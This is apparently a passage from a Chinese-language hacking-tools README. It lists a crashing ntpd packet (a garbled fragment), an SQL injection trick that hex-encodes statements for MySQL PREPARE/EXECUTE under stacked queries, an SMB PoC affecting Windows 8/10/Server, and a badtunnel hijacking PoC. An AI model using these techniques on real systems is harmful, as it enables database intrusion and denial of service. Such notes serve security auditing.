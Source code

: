 ```

6nonce, laddr=[]:Hrags=32, laddr=[]:WOP2, laddr=[]:WOP

接受到这个特殊的数据包，ntpd崩溃，形成拒绝服务
```

### 分享一个SQL注入的技巧
```
审计开源框架/cms的时候可能会遇到一些有意思的注入漏洞
当以pdo的方式连接mysql，也就是说可以多语句执行的时候
然后，参考如下：

python:
import binascii
s='select * from x limit 1;'

print binascii.b2a_hex(s)
# 获得16进制数据，73656c656374202a2066726f6d2078206c696d697420313b

mysql -uroot
set @a:=0x73656c656374202a2066726f6d2078206c696d697420313b;

prepare s from @a;

execute s;

mysql root@localhost:test> execute s;
+------+----------+-------+
|   id |   is_reg |   pid |
|------+----------+-------|
|    1 |        1 |     0 |
+------+----------+-------+
1 row in set
Time: 0.002s
```

### attackSmb/win10.py 一个SMB漏洞的Poc代码
```
此漏洞主要影响Windows Server 2012/2016、Win8/8.1以及Win10系统。
攻击者可以模拟成一个SMB服务器，诱使客户端发起SMB请求来触发漏洞。
攻击者也可以通过中间人方式“毒化”SMB回应，插入恶意的SMB回复实现拒绝服务或控制受害系统。
```
![](https://github.com/LockGit/Hacking/blob/master/attackSmb/attacksmb.png)


### badtunnel-poc.rb badtunnel 跨网段劫持
```
detail:
badtunnel-poc.rb
```
